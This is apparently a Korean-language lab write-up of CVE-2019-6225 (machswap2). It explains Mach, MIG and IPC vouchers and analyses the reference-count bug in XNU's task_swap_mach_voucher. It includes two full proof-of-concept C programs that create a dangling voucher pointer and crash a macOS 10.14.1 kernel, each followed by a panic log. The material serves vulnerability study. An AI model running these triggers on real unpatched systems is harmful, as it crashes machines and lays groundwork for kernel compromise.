



## Mission
Obtain kernel r/w primitive<br>

## Environment
macOS 10.14.1 (18B75, 4core/4thread) / QEMU in Ubuntu 24.04 VMWare (16core)

# [실습] CVE-2019-6225(machswap2) 이해하기

## 사전 지식

### Mach란?

IPC(Inter-Process Communication, 프로세스 간 통신) 레이어로, 
시스템 내의 프로세스들이 서로 소통할 수 있게 해줌.

커널뿐만 아니라 특정 작업을 처리하는 시스템 서비스와 데몬들도 해당 IPC 레이어인 Mach를 사용함.

ex) bluetoothd 데몬 프로세스는 Mach 서버를 구현하고 있으며, 이를 통해 블루투스 연결을 설정하고 관리함.

### MIG란?

줄여서 Mach 인터페이스 생성기라고 함.

Mach API를 사용하여 작성된 많은 코드들은 동일한 보일러플레이트 코드를 포함하고 있으며, 이를 여러 번 수행하면 복잡성을 초래하거나 보안 취약점으로 이어질 수 있음. 

(보일러플레이트 코드: **거의 또는 전혀 변경하지 않고 여러 곳에서 재사용되는 코드 조각)**

바로 이때 Mach 인터페이스 생성기가 매우 유용하게 사용되며, 복잡한 Mach 관련 작업을 모두 처리함. 
여기에는 메시지 관리, 응답 포트, 타임아웃, 객체의 수명 또는 참조 횟수(refcount) 관리가 포함된다.

### IPC Voucher?

커널 내부에 불변(immutable) key–value 속성 집합을 저장하고 
이를 Mach 포트(send right) 형태로 표현하는 객체.

`host_create_mach_voucher`라는 host 포트의 MIG 메서드에 "레시피(recipes)"를 전달하면 바우처(voucher)를 생성하고, 해당 바우처를 나타내는 Mach 포트에 대한 send right를 얻을 수 있음. 

또 하나 중요한 점은 바우처는 고유해야 하며,
동일한 키와 값의 집합에 대해서는 정확히 하나의 Mach 포트가 이를 나타내야 하며, 동일한 키와 값의 집합을 가진 또 다른 레시피를 제공하면 같은 바우처와 포트를 반환해야 한다.

```cpp
    File: ./osfmk/ipc/ipc_voucher.h
    63: /*
    64:  * IPC Voucher
    65:  *
    66:  * 바우처(Voucher)는 참조 카운팅이 적용된 불변(한번 생성되면 변경 불가능) 객체로,
    67:  * 특정 리소스 관리자의 속성 값에 대한 인덱스 집합을 포함합니다. 
    68:  * 이러한 속성 값들도 참조 카운팅이 적용됩니다.
    69:  */
    70: struct ipc_voucher {
    71: 	iv_index_t		iv_hash;	/* checksum hash */
    72: 	iv_index_t		iv_sum;		/* checksum of values */
    73: 	os_refcnt_t		iv_refs;	/* reference count */
    74: 	iv_index_t		iv_table_size;	/* size of the voucher table */
    75: 	iv_index_t		iv_inline_table[IV_ENTRIES_INLINE];
    76: 	iv_entry_t		iv_table;	/* table of voucher attr entries */
    77: 	ipc_port_t		iv_port;	/* port representing the voucher */
    78: 	queue_chain_t		iv_hash_link;	/* link on hash chain */
    79: };
    80: 
    81: #define IV_NULL 	IPC_VOUCHER_NULL
```

## 버그에 대한 근본 원인 분석

[https://github.com/apple-oss-distributions/xnu/blob/xnu-4903.221.2](https://github.com/apple-oss-distributions/xnu/blob/xnu-4903.221.2)

`/xnu-4903.221.2/osfmk/kern/task.c` 파일에 있는 `task_swap_mach_voucher` 함수에서 확인할 수 있다. 

해당 함수는 새로운 바우처와 오래된 바우처를 받아 서로 교환하는 간단한 함수다.



실제로 이 코드에 어떤 버그가 있는지 확인하려면, `task_swap_mach_voucher`를 호출하는 MIG 자동 생성 코드를 통해 알아보아야 한다.

아래 명령어를 통해 MIG 툴로 코드를 생성시켜보자.

macOS 10.14.1 환경에서 xnu-4903.221.2 대상으로 진행하였다.

MIG 래퍼를 생성하려면 새로 만든 임시 디렉터리에서 task.defs 파일에 대해 mig를 실행시키면 된다.

task.defs 파일은 /osfmk/mach/task.defs 경로에 있다.

```bash
cd ~/xnu-4903.221.2

mkdir work

cd work

cp ../osfmk/mach/task.defs .

mig -DKERNEL -DKERNEL_SERVER task.defs
```



다음은 `task_swap_mach_voucher`에 대한 관련 MIG 정의이다.

osfmk/mach/task.defs:455 줄에서 확인할 수 있으며,
`task_swap_mach_voucher` 함수는 플레이스홀더다.

이는 실제로 Mach API임을 나타내는데, 
MIG 정의 파일들이 Mach 인터페이스를 위한 코드를 생성하고 있기 때문이다.

```c
routine task_swap_mach_voucher(
                               task        : task_t;
                               new_voucher : ipc_voucher_t;
                         inout old_voucher : ipc_voucher_t);

/* IPC voucher internal object */
type ipc_voucher_t = mach_port_t
     intran: ipc_voucher_t convert_port_to_voucher(mach_port_t)
     outtran: mach_port_t convert_voucher_to_port(ipc_voucher_t)
     destructor: ipc_voucher_release(ipc_voucher_t)
;
```

MIG 래퍼를 생성했던 임시 디렉터리에서 task.h 파일을 확인해본다.

2047줄부터 `task_swap_mach_voucher` 함수의 Mach 메시지 형식을 확인할 수 있다.


그리고 `task_server.c` 파일의 6732줄부터 해당 함수 요청에 대한 검사가 수행되는것을 알 수 있다.



그리고 실제 구현은 `task_server.c` 파일의 6775줄부터 확인 가능하며,
여기서부터 취약점을 확인할 수 있다.

```c
/* Routine task_swap_mach_voucher */
mig_internal novalue _Xtask_swap_mach_voucher
	(mach_msg_header_t *InHeadP, mach_msg_header_t *OutHeadP)
{
...
	kern_return_t RetCode;
	task_t task;
	ipc_voucher_t new_voucher;
	ipc_voucher_t old_voucher;
...
	task = convert_port_to_task(In0P->Head.msgh_request_port);

// 1. Reference count of new_voucher + 1
	new_voucher = convert_port_to_voucher(In0P->new_voucher.name);
// 2. Reference count of old_voucher + 1
	old_voucher = convert_port_to_voucher(In0P->old_voucher.name);
// 3. task_swap_mach_voucher called -> old_voucher = new_voucher
	RetCode = task_swap_mach_voucher(task, new_voucher, &old_voucher);
// 4. Reference count of new_voucher - 1
	ipc_voucher_release(new_voucher);
	task_deallocate(task);
	if (RetCode != KERN_SUCCESS) {
		MIG_RETURN_ERROR(OutP, RetCode);
	}
...
	if (IP_VALID((ipc_port_t)In0P->old_voucher.name))
		ipc_port_release_send((ipc_port_t)In0P->old_voucher.name);

	if (IP_VALID((ipc_port_t)In0P->new_voucher.name))
		ipc_port_release_send((ipc_port_t)In0P->new_voucher.name);
...
// 5. Reference count of new_voucher - 1 (Because old_voucher is now new_voucher)
	OutP->old_voucher.name = (mach_port_t)convert_voucher_to_port(old_voucher);

	OutP->Head.msgh_bits |= MACH_MSGH_BITS_COMPLEX;
	OutP->Head.msgh_size = (mach_msg_size_t)(sizeof(Reply));
	OutP->msgh_body.msgh_descriptor_count = 1;
	...
}
```

- 내부 코드들을 따라가봤을때의 사진
    
    코드를 따라간 사진; 사진을 다운로드해서 보는것을 추천
    
    
    


이제 문제를 보기 시작했을 것이다. 
**new_voucher**의 참조 카운트가 0으로 감소하여 객체가 해제될 수 있으며, 
**old_voucher**의 참조 카운트는 너무 많이 증가할 수 있다.

따라서 바우처를 가리키는 덩글링 포인터가 생길 수 있는데, 

이는 바우처를 가리키는 포인터를 저장한 후, 취약점을 이용해 바우처의 참조 카운트를 0으로 감소시켜 바우처를 해제함으로써 가능하다.


## 개념 증명 코드 1

아래 개념 증명 코드는 Mach 바우처(Mach voucher)를 생성한 후, 
`thread_set_mach_voucher()`를 통해 현재 스레드의 `ith_voucher` 필드에 해당 바우처에 대한 참조를 저장한다.

이후 `task_swap_mach_voucher()`를 사용하여 참조 카운트를 1로 감소시키고, 사용자 공간에서 해당 바우처 포트를 할당 해제하여 바우처를 해제한다. 

이로 인해 해제된 바우처의 메모리에 대한 댕글링 포인터(dangling pointer)가 `ith_voucher`에 남게 되며, 이후 `thread_get_mach_voucher()` 호출을 통해 이 포인터에 접근하면 커널 패닉이 발생하게 되는 코드이다.

- poc1.c

```c
#include <assert.h>
#include <mach/mach.h>
#include <stdio.h>
#include <unistd.h>

// Stash the host port for create_voucher().
mach_port_t host;

/*
 * create_voucher
 *
 * Description:
 * 	Create a Mach voucher. If id is unique, then this will be a unique voucher (until another
 * 	call to this function with the same id).
 *
 * 	A Mach voucher port for the voucher is returned. The voucher has 1 reference, while the
 * 	voucher port has 2 references and 1 send right.
 */
static mach_port_t
create_voucher(uint64_t id) {
	assert(host != MACH_PORT_NULL);
	mach_port_t voucher = MACH_PORT_NULL;
#pragma clang diagnostic push
#pragma clang diagnostic ignored "-Wgnu-variable-sized-type-not-at-end"
	struct __attribute__((packed)) {
		mach_voucher_attr_recipe_data_t user_data_recipe;
		uint64_t user_data_content[2];
	} recipes = {};
#pragma clang diagnostic pop
	recipes.user_data_recipe.key = MACH_VOUCHER_ATTR_KEY_USER_DATA; //7
	recipes.user_data_recipe.command = MACH_VOUCHER_ATTR_USER_DATA_STORE; //211
	recipes.user_data_recipe.content_size = sizeof(recipes.user_data_content);
	recipes.user_data_content[0] = getpid();
	recipes.user_data_content[1] = id;
	kern_return_t kr = host_create_mach_voucher(
			host,
			(mach_voucher_attr_raw_recipe_array_t) &recipes,
			sizeof(recipes),
			&voucher);
	assert(kr == KERN_SUCCESS);
	assert(voucher != MACH_PORT_NULL);
	return voucher;
}

/*
 * voucher_tweak_references
 *
 * Description:
 * 	Use the task_swap_mach_voucher() vulnerabilities to modify the reference counts of 2
 * 	vouchers. 
 *
 */
static void
voucher_tweak_references(mach_port_t release_voucher, mach_port_t reference_voucher) {
	// Call task_swap_mach_voucher() to tweak the reference counts (two bugs in one!).
	mach_port_t inout_voucher = reference_voucher;
	kern_return_t kr = task_swap_mach_voucher(mach_task_self(), release_voucher, &inout_voucher);
	assert(kr == KERN_SUCCESS);
	// At this point we've successfully tweaked the voucher reference counts, but our port
	// reference counts might be messed up because of the voucher port returned in
	// inout_voucher! We need to deallocate it (it's extra anyways, since
	// task_swap_mach_voucher() doesn't swallow the existing send rights).
	if (MACH_PORT_VALID(inout_voucher)) {
		kr = mach_port_deallocate(mach_task_self(), inout_voucher);
		assert(kr == KERN_SUCCESS);
	}
}

/*
 * voucher_reference
 *
 * Description:
 * 	Add a reference to the voucher represented by the voucher port.
 */
static void
voucher_reference(mach_port_t voucher) {
	voucher_tweak_references(MACH_PORT_NULL, voucher);
}

/*
 * voucher_release
 *
 * Description:
 * 	Release a reference on the voucher represented by the voucher port.
 */
static void
voucher_release(mach_port_t voucher) {
	voucher_tweak_references(voucher, MACH_PORT_NULL);
}

/*
 * thread_stash_freed_voucher
 *
 * Description:
 * 	Stash a pointer to a freed voucher object in the current thread's ith_voucher field. This
 * 	voucher can be accessed later with thread_get_mach_voucher().
 */
static void
thread_stash_freed_voucher(mach_port_t thread_self) {
	// Create a unique voucher. This voucher will have 1 voucher reference, 2 port references,
	// and 1 port send right.
	mach_port_t voucher = create_voucher(0);
	// Stash a copy of the voucher in our thread. This will bump the voucher references to 2.
	kern_return_t kr = thread_set_mach_voucher(thread_self, voucher);
	assert(kr == KERN_SUCCESS);
	// Now drop the voucher reference count to 1. The port reference count is still 2.
	voucher_release(voucher);
	// Next deallocate our send right to the voucher port. This drops the port send right
	// count to 0 (although the port reference count is still 1), causing a no-senders
	// notification to be triggered. The no-senders notification calls ipc_voucher_notify(),
	// which releases the final voucher reference. In the process of freeing the voucher,
	// ipc_port_dealloc_kernel() is called on the port, so the port is also freed.
	kr = mach_port_deallocate(mach_task_self(), voucher);
	assert(kr == KERN_SUCCESS);
	// This leaves a dangling pointer to the voucher in thread_self->ith_voucher. We can access
	// the freed voucher and voucher port with a call to thread_get_mach_voucher().
}

int
main(int argc, const char *argv[]) {
	host = mach_host_self();
	mach_port_t thread = mach_thread_self();
	// Stash a pointer to a freed ipc_voucher_t in this thread's ith_voucher field.
	thread_stash_freed_voucher(thread);
	// The following call should trigger a panic.
	mach_port_t voucher;
	thread_get_mach_voucher(thread, 0, &voucher);
	return 0;
}
```

### 크래시 로그

*** Panic Report ***
panic(cpu 0 caller 0xffffff800ebe5739): "os_refcnt: used unsafely when zero (rc=0xffffff80173ee918, grp=<null>)\n"@/BuildRoot/Library/Caches/com.apple.xbs/Sources/xnu/xnu-4903.221.2/libkern/os/refcnt.c:49

```bash
Anonymous UUID:       669CA505-4C1E-F5BE-EFB4-13F2D89CF791

Thu Jul 31 13:16:29 2025

*** Panic Report ***
panic(cpu 0 caller 0xffffff800ebe5739): "os_refcnt: used unsafely when zero (rc=0xffffff80173ee918, grp=<null>)\n"@/BuildRoot/Library/Caches/com.apple.xbs/Sources/xnu/xnu-4903.221.2/libkern/os/refcnt.c:49
Backtrace (CPU 0), Frame : Return Address
0xffffff8872ee3a40 : 0xffffff800ebaca9d mach_kernel : _handle_debugger_trap + 0x48d
0xffffff8872ee3a90 : 0xffffff800ece6893 mach_kernel : _kdp_i386_trap + 0x153
0xffffff8872ee3ad0 : 0xffffff800ecd82ba mach_kernel : _kernel_trap + 0x4fa
0xffffff8872ee3b40 : 0xffffff800eb59ca0 mach_kernel : _return_from_trap + 0xe0
0xffffff8872ee3b60 : 0xffffff800ebac4b7 mach_kernel : _panic_trap_to_debugger + 0x197
0xffffff8872ee3c80 : 0xffffff800ebac303 mach_kernel : _panic + 0x63
0xffffff8872ee3cf0 : 0xffffff800ebe5739 mach_kernel : _thread_get_mach_voucher + 0x1d9
0xffffff8872ee3d40 : 0xffffff800ec20097 mach_kernel : _thread_act_server_routine + 0x2627
0xffffff8872ee3d80 : 0xffffff800ebb218d mach_kernel : _ipc_kobject_server + 0x12d
0xffffff8872ee3dd0 : 0xffffff800eb8cb45 mach_kernel : _ipc_kmsg_send + 0x225
0xffffff8872ee3e50 : 0xffffff800eba14fe mach_kernel : _mach_msg_overwrite_trap + 0x38e
0xffffff8872ee3ef0 : 0xffffff800ecbfa0b mach_kernel : _mach_call_munger64 + 0x22b
0xffffff8872ee3fa0 : 0xffffff800eb5a486 mach_kernel : _hndl_mach_scall64 + 0x16

BSD process name corresponding to current thread: poc
Boot args: -v keepsyms=1 amfi_get_out_of_my_way=1 tlbto_us=0 vti=9 

Mac OS version:
18B75

Kernel version:
Darwin Kernel Version 18.2.0: Fri Oct  5 19:41:49 PDT 2018; root:xnu-4903.221.2~2/RELEASE_X86_64
Kernel UUID: 5D53F7E4-472A-369D-97D8-4DD877A4BDFF
Kernel slide:     0x000000000e800000
Kernel text base: 0xffffff800ea00000
__HIB  text base: 0xffffff800e900000
System model name: iMacPro1,1 (Mac-7BA5B2D9E42DDD94)

System uptime in nanoseconds: 4049157191071
last loaded kext at 384662062545: com.apple.filesystems.msdosfs	1.10 (addr 0xffffff7f91898000, size 69632)
last unloaded kext at 549447060680: com.apple.filesystems.msdosfs	1.10 (addr 0xffffff7f91898000, size 69632)
loaded kexts:
as.acidanthera.BrcmFirmwareStore	2.6.9
as.vit9696.AppleALC	1.9.0
as.vit9696.WhateverGreen	1.6.7
as.vit9696.Lilu	1.6.8
com.apple.driver.X86PlatformShim	1.0.0
com.apple.driver.AGPM	110.23.46
com.apple.driver.ApplePlatformEnabler	2.7.0d0
com.apple.fileutil	1
com.apple.filesystems.autofs	3.0
com.apple.driver.AppleHDA	282.10
com.apple.driver.Apple16X50ACPI	3.2
com.apple.driver.AppleOSXWatchdog	1
com.apple.AGDCPluginDisplayMetrics	3.25.6
com.apple.driver.AppleHV	1
com.apple.iokit.IOUserEthernet	1.0.1
com.apple.iokit.IOBluetoothSerialManager	6.0.9f2
com.apple.Dont_Steal_Mac_OS_X	7.0.0
com.apple.driver.AppleIntelSlowAdaptiveClocking	4.0.0
com.apple.driver.AppleUpstreamUserClient	3.6.5
com.apple.driver.AppleMCCSControl	1.5.6
com.apple.filesystems.apfs	945.220.38
com.apple.driver.AppleVmxnet3Ethernet	1.0.8
com.apple.driver.AppleAHCIPort	329.200.2
com.apple.driver.AppleVirtIO	2.0.9
com.apple.filesystems.hfs.kext	407.200.4
com.apple.AppleFSCompression.AppleFSCompressionTypeDataless	1.0.0d1
com.apple.BootCache	40
com.apple.AppleFSCompression.AppleFSCompressionTypeZlib	1.0.0
com.apple.AppleSystemPolicy	1.0
com.apple.private.KextAudit	1.0
com.apple.driver.AppleACPIButtons	6.1
com.apple.driver.AppleHPET	1.8
com.apple.driver.AppleRTC	2.0
com.apple.driver.AppleSMBIOS	2.1
com.apple.driver.AppleAPIC	1.7
com.apple.nke.applicationfirewall	190
com.apple.security.TMSafetyNet	8
com.apple.kext.triggers	1.0
com.apple.driver.DspFuncLib	282.10
com.apple.kext.OSvKernDSPLib	527
com.apple.driver.Apple16X50Serial	3.2
com.apple.driver.AppleHDAController	282.10
com.apple.iokit.IOHDAFamily	282.10
com.apple.driver.X86PlatformPlugin	1.0.0
com.apple.driver.IOPlatformPluginFamily	6.0.0d8
com.apple.iokit.IOAVBFamily	710.1
com.apple.plugin.IOgPTPPlugin	700.7
com.apple.iokit.IOEthernetAVBController	1.1.0
com.apple.driver.AppleSSE	1.0
com.apple.iokit.IOSurface	255.1
com.apple.iokit.IOBluetoothFamily	6.0.9f2
com.apple.AppleGPUWrangler	3.25.6
com.apple.AppleGraphicsDeviceControl	3.25.6
com.apple.iokit.IOSlowAdaptiveClockingFamily	1.0.0
com.apple.driver.AppleSMBusController	1.0.18d1
com.apple.iokit.IOSMBusFamily	1.1
com.apple.iokit.IONDRVSupport	530
com.apple.iokit.IOGraphicsFamily	530.12
com.apple.iokit.IOAHCIBlockStorage	301.200.2
com.apple.driver.usb.IOUSBHostHIDDevice	1.2
com.apple.iokit.IOAudioFamily	206.5
com.apple.vecLib.kext	1.2.0
com.apple.driver.usb.networking	5.0.0
com.apple.driver.usb.AppleUSBHostCompositeDevice	1.2
com.apple.iokit.IOAHCIFamily	288
com.apple.driver.usb.AppleUSBEHCIPCI	1.2
com.apple.driver.usb.AppleUSBEHCI	1.2
com.apple.iokit.IOSerialFamily	11
com.apple.filesystems.hfs.encodings.kext	1
com.apple.driver.usb.AppleUSBHostPacketFilter	1.0
com.apple.iokit.IOUSBFamily	900.4.2
com.apple.driver.AppleEFINVRAM	2.1
com.apple.driver.AppleEFIRuntime	2.1
com.apple.iokit.IOHIDFamily	2.0.0
com.apple.security.quarantine	3
com.apple.security.sandbox	300.0
com.apple.kext.AppleMatch	1.0.0d1
com.apple.driver.DiskImages	493.0.0
com.apple.driver.AppleFDEKeyStore	28.30
com.apple.driver.AppleEffaceableStorage	1.0
com.apple.driver.AppleKeyStore	2
com.apple.driver.AppleUSBTDM	456.200.8
com.apple.driver.AppleMobileFileIntegrity	1.0.5
com.apple.kext.CoreTrust	1
com.apple.iokit.IOUSBMassStorageDriver	145.200.2
com.apple.iokit.IOSCSIBlockCommandsDevice	408.200.1
com.apple.iokit.IOSCSIArchitectureModelFamily	408.200.1
com.apple.iokit.IOStorageFamily	2.1
com.apple.driver.AppleCredentialManager	1.0
com.apple.driver.KernelRelayHost	1
com.apple.iokit.IOUSBHostFamily	1.2
com.apple.driver.usb.AppleUSBCommon	1.0
com.apple.driver.AppleBusPowerController	1.0
com.apple.driver.AppleSEPManager	1.0.1
com.apple.driver.IOSlaveProcessor	1
com.apple.iokit.IOReportFamily	47
com.apple.iokit.IOTimeSyncFamily	700.7
com.apple.iokit.IONetworkingFamily	3.4
com.apple.driver.AppleACPIPlatform	6.1
com.apple.driver.AppleSMC	3.1.9
com.apple.iokit.IOPCIFamily	2.9
com.apple.iokit.IOACPIFamily	1.4
com.apple.kec.pthread	1
com.apple.kec.Libm	1
com.apple.kec.corecrypto	1.0

EOF
Model: iMacPro1,1, BootROM 2022.100.22.0.0, 1 processor, Intel Core 2 Solo, 3.8 GHz, 2 GB, SMC 
Graphics: Display, 3 MB
Memory Module: DIMM 0, 2 GB, RAM, 0 MHz, QEMU, Unknown
Network Service: Ethernet, Ethernet, en0
Serial ATA Device: QEMU HARDDISK, 402.7 MB
Serial ATA Device: QEMU HARDDISK, 14.68 GB
Serial ATA Device: QEMU HARDDISK, 68.72 GB
USB Device: USB 2.0 Bus
USB Device: QEMU USB Mouse
USB Device: QEMU USB Keyboard
Thunderbolt Bus: 
```

## 개념 증명 코드 2

해당 코드에 대해 설명하자면,
먼저 p1(타겟 바우처)을 나중에 다시 접근할 수 있도록 우리 스레드에 할당한다.

이후 그것을 다시 가져오려고 시도하면, 해당 바우처의 참조(ref)가 증가하게 되며 — 현재 p1의 참조 카운트는 2가 된다.

여기서 task_swap_mach_voucher 함수를 통해 p1의 ref 카운트를 감소 시킬 수 있기 때문에 
p3와 스왑한 이후로는 voucher를 free시켜버리게된다.

마찬가지로 해제된 바우처의 메모리에 대한 댕글링 포인터(dangling pointer)가 `ith_voucher`에 남게 되며, 
이후 `thread_get_mach_voucher()` 호출을 통해 이 포인터에 접근하면 커널 패닉이 발생한다.

- poc2.c

```c
#include <assert.h>
#include <mach/mach.h>
#include <stdio.h>
#include <unistd.h>

int
main(int argc, const char *argv[]) {
	mach_voucher_attr_recipe_data_t atm_data = 
    {
            .key = MACH_VOUCHER_ATTR_KEY_ATM, //1
            .command = 510
    };

    mach_port_t p1;
    kern_return_t ret = host_create_mach_voucher(mach_host_self(), (mach_voucher_attr_raw_recipe_array_t)&atm_data, sizeof(atm_data), &p1);

    mach_port_t p2;
    ret = host_create_mach_voucher(mach_host_self(), (mach_voucher_attr_raw_recipe_array_t)&atm_data, sizeof(atm_data), &p2);

    mach_port_t p3;
    ret = host_create_mach_voucher(mach_host_self(), (mach_voucher_attr_raw_recipe_array_t)&atm_data, sizeof(atm_data), &p3);

    /* 
            We assign p1 (our target voucher) onto our thread so it can be accessed again later.
            When we later try to retreive it 
            This will increment a ref on the voucher -- the current refcount is 2 
    */
    ret = thread_set_mach_voucher(mach_thread_self(), p1);

    ret = task_swap_mach_voucher(mach_task_self(), p1, &p2); // Trigger the bug once, this drops a ref from 2 to 1 

    ret = task_swap_mach_voucher(mach_task_self(), p1, &p3); // Second trigger, this frees the voucher (refcnt=0)

    /* Ask for a handle on the danging voucher, 9 times out of 10 this will cause a panic due to the bad refcnt etc */ 
    mach_port_t real_port_to_fake_voucher = MACH_PORT_NULL;
    ret = thread_get_mach_voucher(mach_thread_self(), 0, &real_port_to_fake_voucher);
}
```

### 크래시 로그

```c
Anonymous UUID:       669CA505-4C1E-F5BE-EFB4-13F2D89CF791

Sat Aug  2 14:22:23 2025

*** Panic Report ***
panic(cpu 0 caller 0xffffff80187e5739): "os_refcnt: overflow (rc=0xffffff8024c03b48, grp=<null>)\n"@/BuildRoot/Library/Caches/com.apple.xbs/Sources/xnu/xnu-4903.221.2/libkern/os/refcnt.c:58
Backtrace (CPU 0), Frame : Return Address
0xffffff801e653a40 : 0xffffff80187aca9d mach_kernel : _handle_debugger_trap + 0x48d
0xffffff801e653a90 : 0xffffff80188e6893 mach_kernel : _kdp_i386_trap + 0x153
0xffffff801e653ad0 : 0xffffff80188d82ba mach_kernel : _kernel_trap + 0x4fa
0xffffff801e653b40 : 0xffffff8018759ca0 mach_kernel : _return_from_trap + 0xe0
0xffffff801e653b60 : 0xffffff80187ac4b7 mach_kernel : _panic_trap_to_debugger + 0x197
0xffffff801e653c80 : 0xffffff80187ac303 mach_kernel : _panic + 0x63
0xffffff801e653cf0 : 0xffffff80187e5739 mach_kernel : _thread_get_mach_voucher + 0x1d9
0xffffff801e653d40 : 0xffffff8018820097 mach_kernel : _thread_act_server_routine + 0x2627
0xffffff801e653d80 : 0xffffff80187b218d mach_kernel : _ipc_kobject_server + 0x12d
0xffffff801e653dd0 : 0xffffff801878cb45 mach_kernel : _ipc_kmsg_send + 0x225
0xffffff801e653e50 : 0xffffff80187a14fe mach_kernel : _mach_msg_overwrite_trap + 0x38e
0xffffff801e653ef0 : 0xffffff80188bfa0b mach_kernel : _mach_call_munger64 + 0x22b
0xffffff801e653fa0 : 0xffffff801875a486 mach_kernel : _hndl_mach_scall64 + 0x16

BSD process name corresponding to current thread: poc
Boot args: -v keepsyms=1 amfi_get_out_of_my_way=1 tlbto_us=0 vti=9 

Mac OS version:
18B75

Kernel version:
Darwin Kernel Version 18.2.0: Fri Oct  5 19:41:49 PDT 2018; root:xnu-4903.221.2~2/RELEASE_X86_64
Kernel UUID: 5D53F7E4-472A-369D-97D8-4DD877A4BDFF
Kernel slide:     0x0000000018400000
Kernel text base: 0xffffff8018600000
__HIB  text base: 0xffffff8018500000
System model name: iMacPro1,1 (Mac-7BA5B2D9E42DDD94)

System uptime in nanoseconds: 150525421038
last loaded kext at 19366366727: com.apple.fileutil	1 (addr 0xffffff7f998a5000, size 110592)
loaded kexts:
as.acidanthera.BrcmFirmwareStore	2.6.9
as.vit9696.AppleALC	1.9.0
as.vit9696.WhateverGreen	1.6.7
as.vit9696.Lilu	1.6.8
com.apple.fileutil	1
com.apple.filesystems.autofs	3.0
com.apple.driver.X86PlatformShim	1.0.0
com.apple.driver.AGPM	110.23.46
com.apple.driver.ApplePlatformEnabler	2.7.0d0
com.apple.driver.AppleHDAHardwareConfigDriver	282.10
com.apple.driver.AppleHDA	282.10
com.apple.driver.AppleQEMUHID	2.0.9
com.apple.driver.AppleGraphicsDevicePolicy	3.25.6
com.apple.driver.AppleUpstreamUserClient	3.6.5
com.apple.driver.AppleMCCSControl	1.5.6
com.apple.driver.AppleOSXWatchdog	1
com.apple.driver.ACPI_SMC_PlatformPlugin	1.0.0
com.apple.driver.Apple16X50ACPI	3.2
com.apple.driver.AppleFIVRDriver	4.1.0
com.apple.AGDCPluginDisplayMetrics	3.25.6
com.apple.driver.AppleHV	1
com.apple.iokit.IOUserEthernet	1.0.1
com.apple.iokit.IOBluetoothSerialManager	6.0.9f2
com.apple.driver.pmtelemetry	1
com.apple.Dont_Steal_Mac_OS_X	7.0.0
com.apple.driver.AppleIntelSlowAdaptiveClocking	4.0.0
